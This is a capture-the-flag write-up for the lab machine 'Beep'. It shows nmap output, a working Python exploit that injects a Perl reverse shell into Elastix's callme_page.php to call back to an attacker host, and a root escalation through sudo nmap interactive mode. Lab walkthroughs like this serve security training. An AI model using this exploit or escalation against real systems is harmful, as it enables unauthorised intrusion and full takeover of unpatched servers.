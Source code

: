 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Beep
- Description: Beep has a very large list of running services, which can make it a bit challenging to find the correct entry method. This machine can be overwhelming for some as there are many potential attack vectors. Luckily, there are several methods available for gaining access.
- Difficulty: Easy

## Initial Access

Nmap:

```bash
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https://10.10.10.7/
|_http-server-header: Apache/2.2.3 (CentOS)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS IMPLEMENTATION(Cyrus POP3 server v2) PIPELINING USER UIDL RESP-CODES LOGIN-DELAY(0) APOP EXPIRE(NEVER) TOP AUTH-RESP-CODE
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            792/udp   status
|_  100024  1            795/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed X-NETSCAPE UIDPLUS ID IMAP4 UNSELECT THREAD=REFERENCES NO CHILDREN OK SORT URLAUTHA0001 IMAP4rev1 ANNOTATEMORE STARTTLS NAMESPACE LIST-SUBSCRIBED LISTEXT IDLE CONDSTORE MAILBOX-REFERRALS CATENATE RENAME THREAD=ORDEREDSUBJECT SORT=MODSEQ RIGHTS=kxte QUOTA MULTIAPPEND ACL LITERAL+ BINARY ATOMIC
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 80DCC71362B27C7D0E608B0890C05E9F
|_ssl-date: 2024-01-18T19:52:22+00:00; +5s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2017-04-07T08:22:08
| Not valid after:  2018-04-07T08:22:08
| MD5:   621a:82b6:cf7e:1afa:5284:1c91:60c8:fbc8
|_SHA-1: 800a:c6e7:065e:1198:0187:c452:0d9b:18ef:e557:a09f
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
795/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-favicon: Unknown favicon MD5: 74F7F6F633A027FA3EA36F05004C9341
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
```

At this point I'll look through the easiest ports to enumerate first before getting overwhelmed with al these services.

### Port 80 - 443

Checking this port I can see elastix is running, doing a quick serachsploit yeilds with some vulnerabilities:


![assets/images/2024-01-18-Beep-Writeup.md-image-1.png](assets/images/2024-01-18-Beep-Writeup.md-image-1.png)

![assets/images/2024-01-18-Beep-Writeup.md-image-2.png](assets/images/2024-01-18-Beep-Writeup.md-image-2.png)

I found this python script:

```python
import urllib2
import ssl

rhost="10.10.10.7"
lhost="10.10.14.14"
lport=4444
extension="233"


ctx = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib2.urlopen(url,context=ctx)
```

running it yields a reverse shell:

![assets/images/2024-01-18-Beep-Writeup.md-image-3.png](assets/images/2024-01-18-Beep-Writeup.md-image-3.png)
## Privilege Escalation

For privilege escalation I can do the normal recon, I started with sudo privileges:

```bash
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

I can run nmap as root, so I can privilege escalate simply:

```bash
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# whoami
whoami
root
sh-3.2#
```


## Beyond Root

This box was quite simple, just outdated software, I highly recommend updating the software. Nmap being there doesn't change anything as it wouldn't be accessible if the software was up to date. 